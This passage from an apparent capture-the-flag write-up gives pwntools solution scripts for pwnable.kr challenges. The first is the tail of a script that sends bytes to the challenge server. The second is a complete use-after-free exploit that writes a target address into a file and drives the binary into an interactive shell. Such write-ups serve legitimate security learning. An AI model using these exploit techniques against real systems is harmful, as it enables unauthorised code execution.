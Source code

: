 ```python
#level4 
with open("\x0a",'w') as x:
	x.write("\x00\x00\x00\x00")
	x.close()

if __name__ ==  "__main__":
	
	sd = socket(AF_INET, SOCK_STREAM)

	io = process( argv = argv,  env = dic, stdin = stdinr, stderr = stderrr )
	 
	#level5
	
	host = "pwnable.kr"
	port = int(argv[ord('C')])

	sd.connect((host,port))
	sd.send("\xde\xad\xbe\xef")
	sd.close()

	io.interactive()
	io.close()
```

<br>

### uaf

> Description：Mommy, what is Use After Free bug?
>
> On Aug 1,2018

`Use After Free`

#### exp

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'L1B0'

from pwn import *
context.log_level = 'debug'

#elf = ELF('./uaf')

len = '16'
sys_addr = p64(0401568)

f = open('addr.txt','w')
f.write(sys_addr)
f.close()

io = process( argv = ['/home/uaf//uaf',len,'addr.txt'] )

io.sendlineafter("free\n",'3')
io.sendlineafter("free\n",'2')
io.sendlineafter("free\n",'2')
io.sendlineafter("free\n",'1')

io.interactive()
```
